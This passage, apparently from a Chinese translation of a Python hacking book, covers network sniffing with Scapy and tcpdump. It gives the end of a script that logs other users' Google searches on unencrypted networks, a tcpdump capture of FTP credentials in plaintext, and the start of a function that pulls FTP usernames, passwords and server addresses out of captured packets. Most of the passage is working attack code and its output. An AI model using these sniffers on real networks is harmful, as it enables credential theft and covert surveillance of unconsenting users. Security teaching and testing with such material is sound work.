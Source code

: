```
    else:
        try:
            conf.iface = options.interface
            print('[*] Starting Google Sniffer.')
            sniff(filter='tcp port 80', prn=findGoogle)
        except KeyboardInterrupt:
            exit(0)

if __name__ == '__main__':
    main() 
```

在使用未加密的网络连接中运行我们的脚本，我们可以看到别人的搜索内容。拦截 Google 流量可能有点令人为难，下一节，拦截用户的凭据的手段更加能证明一个组织的安全局势。

```
attacker# python googleSniff.py -i mon0
[*] Starting Google Sniffer.
[+] W
[+] What
[+] What is
[+] What is the mean
[+] What is the meaning of life? 
```

## Google URL 搜索参数

Google URL 搜索参数提供了许多有价值的

额外信息，这些信息对建立你的 Google 搜索记录器很有用。解析出的查询，先前查询，语言，特定的短语搜索文本类型或者受限制的站点都可以添加到我们的记录器。更多信息请到： [`www.google.com/cse/docs/resultsxml.html`](http://www.google.com/cse/docs/resultsxml.html)

## 嗅探 FTP 认证

FTP 协议缺乏任何的加密算法来保护用户认证。黑客能轻松的拦截这些任何当受害者在这种为加密的网络。看下面的`tcpdump`显示我们拦截的用户凭证。FTP 协议通过明文交换凭证。

```
attacker# tcpdump -A -i mon0 'tcp port 21'
E..(..@.@.q..._...........R.=.|.P.9.....
20:54:58.388129 IP 192.168.95.128.42653 > 192.168.211.1.ftp:
Flags [P.], seq 1:17, ack 63, win 14600, length 16
E..8..@.@.q..._...........R.=.|.P.9.....USER root
20:54:58.388933 IP 192.168.95.128.42653 > 192.168.211.1.ftp:
Flags [.], ack 112, win 14600, length 0
E..(..@.@.q..._...........R.=.|.P.9.....
20:55:00.732327 IP 192.168.95.128.42653 > 192.168.211.1.ftp:
Flags [P.], seq 17:33, ack 112, win 14600, length 16
E..8..@.@.q..._...........R.=.|.P.9.....PASS secret 
```

为了拦截这些凭证，我们寻找两个特殊的字符串。第一个字符串包含 USER 接着就是用户名，第二个字符串是 PASS 接着就是密码。我们在`tcpdump`的数据中看到这些凭证。我们将设计两个正则表达式来捕获这些信息。我们也将从数据包中剥离 IP 地址。不知道服务器的 IP 地址用户名和密码是毫无价值的。

```
from scapy.all import *

def ftpSniff(pkt):
    dest = pkt.getlayer(IP).dst
    raw = pkt.sprintf('%Raw.load%')
    user = re.findall('(?i)USER (.*)', raw)
    pswd = re.findall('(?i)PASS (.*)', raw)
    if user:
        print('[*] Detected FTP Login to ' + str(dest))
        print('[+] User account: ' + str(user[0]))
    elif pswd:
        print('[+] Password: ' + str(pswd[0])) 
```
